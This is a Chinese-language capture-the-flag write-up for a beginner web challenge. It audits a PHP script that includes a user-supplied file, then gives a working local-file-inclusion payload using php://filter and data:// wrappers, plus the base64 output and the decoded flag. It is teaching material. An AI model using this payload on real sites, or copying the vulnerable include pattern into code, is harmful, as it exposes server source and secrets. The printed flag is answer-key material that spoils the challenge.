

【攻防世界】 Web新手题

题目来源：CTF

题目描述：好多file呀！

题解过程：

代码审计，先把整个php代码的流程看懂，这样才可以构造参数和值。



```php
if(isset($GET["file1"]) && isset($GET["file2"]))
```

判断file1和file2两个文件是否为空，如果有一个为空，那么就什么也不执行，所以这里我们必须要保证文件存在且不为NULL

```php
$file1 = $GET["file1"];

$file2 = $GET["file2"];
```

用GET方式接收file1的值并赋给变量file1

用GET方式接收file2的值并赋给变量file2

```
 if(!empty($file1) && !empty($file2))
```

判断file1和file2的值不为空，如果为空则执行else输出NONONO

```
if(file_get_contents($file2) === "hello ctf")
    {
      include($file1);
    }
```

这里的文件要求file2的值能够严格等于hello ctf

满足所有条件后，即可解出flag

构造结果：

```
?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=data://text/plain,hello ctf
```

得出flag值：PD9waHAKZWNobyAiV1JPTkcgV0FZISI7Ci8vICRmbGFnID0gY3liZXJwZWFjZXszZWRkOTg4MGQ0YzU0NTQ0MGRjOTY1MTU5MWFkMjczN30=

这里采用了base64加密，解密后：

```
<?php
echo "WRONG WAY!";
// $flag = cyberpeace{3edd9880d4c545440dc9651591ad2737}
```

总结：

​	需要掌握php语言，至少能看懂，学会构造参数，利用文件包含漏洞进行解题，需要了解php伪协议是什么，如何用。